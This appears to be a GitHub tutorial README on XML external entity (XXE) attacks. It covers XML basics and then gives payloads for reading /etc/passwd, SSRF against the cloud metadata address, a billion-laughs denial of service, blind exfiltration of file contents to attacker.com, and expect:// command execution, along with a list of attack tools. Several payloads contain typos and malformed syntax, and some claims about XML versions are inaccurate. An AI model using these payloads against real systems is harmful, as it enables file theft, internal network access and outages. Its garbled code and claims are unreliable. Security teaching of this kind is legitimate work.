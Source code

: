 ## INFO 

Before we look at XXE, let’s look into few XML Basics which helps us to understand the main concepts behind XXE

## WHAT IS XXE 

XML stands for Extensible Markup Language, that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable,
and the current version is 1.0.

## Design Goals of XML:

1. Easy processing across the internet.
2. Clear
3. Easy to create

## Some Code of XML:

    <?xml version=”1.0” encoding=”UTF-8”?> 
    <plane>
      <year> 1977 </year>
      <make> Cessna </make>
      <mode> Skyhawk </mode>
      <color> Light Blue and White </color>
    </plane>
    
 ## XML Parser
 
 Say, you have an XML document and your application needs to process the document, 
 the part of processing the XML is called XML Parser and parser tried to parse the document which allows your application to use the parsed values.
 
 ## Document Type Definition (DTD)
 
 This is an optional part of XML but it is part of the XML standard itself. DTD provides a grammar for a class of documents, which can contain markup  declarations which define the structure for a document and can also contain Entities. [note: DTD are prohibited from version 1.1]
 
 ## Entities
 
 These can be seen as a placeholder for variables which comes in
1. Regular Entities: Text substitution, where instead of adding text we can add a reference to the entity.
2. Predefined Entities: This is part of the XML standard.
3. External Entities: A placeholder that can point to internal and external resources.

## Some Code Explane How Vulnerablity Works

    <?xml version=”1.0” encoding=”UTF-8”?>
    <!DOCTYPE Vulnerability [ #DTD Decleration
    <!ENTITY xxe “XXE”> #Entity Decleration
    ]>
    <Vulnerability>
    &xxe; #Reference to entity
    </Vulnerability>

## XML Validation

In this process, we generally validate the well-formedness where we check the syntax but not validate whether it is a valid instance of the included DTD.

Tools we can use to validate an XML file are xmllint and xmlstarlet.

## Common places to search for?

XML file upload (e.g confing files)

XML input fields

XML based Apis

XML based file (RSS,SVG,CSS)

Ms Office files (docx,xlsx,etc.)

SAML-based SSO

VoiceXML in IVR systems

Online MAP editors using KML

## ATTACK TYPE 

1. Classic XXE
2. Server Side Request Forgery
3. Denial of Service 
4. Advanced XXE 
5. Remote Code Execution

##  Classic XXE

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>
    
 ## OUTPUT 
 Hello Khan root:x:0:0:root....
 .......
 ''''''
 
This is Vulnerability
    
## Server Side Request Forgery

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "https://169.254.169.254"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>

 ## OUTPUT
 
 Hello asif 1.0
 2007-01-09
 2007-03-01
 .......
 ''''''

## Denial of Service 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lolz [<!ENTITY lol "lol><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5">
<!ENTITY lol7 "&lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8">
<tag>&lol9;</tag>


 ## Advanced XXE 
 
 1.Also Known as Blind XXE 
 2.Out of band data exfiltration 
 
 The Payload to Upload/Send
 
     <!DOCTYPE roottag [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
     %dtd;]>
     <roottag>&send;</roottag>
     
     Content of host.dtd
     <!ENTITY % all "<!ENTITY send SYSTEM "http://attacker.com/collect.php?file=%file;'>">
     %all;
 
 ## Remote Code Execution 
 
 In Some rare cases XXE can be elevated to executed system commands on the server 
 
 SAMPLE paylod: 
 
     <!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
     
 ## TOOLS
 
 Burpsuite
    
     Intercepting Proxy 
     
  Xxeserv 
  
     A mini webserver with FTP support for XXE paylods 
     
  OXML_xxe
  
     A tool for embedding XXE/XML exploits into different filetypes
 
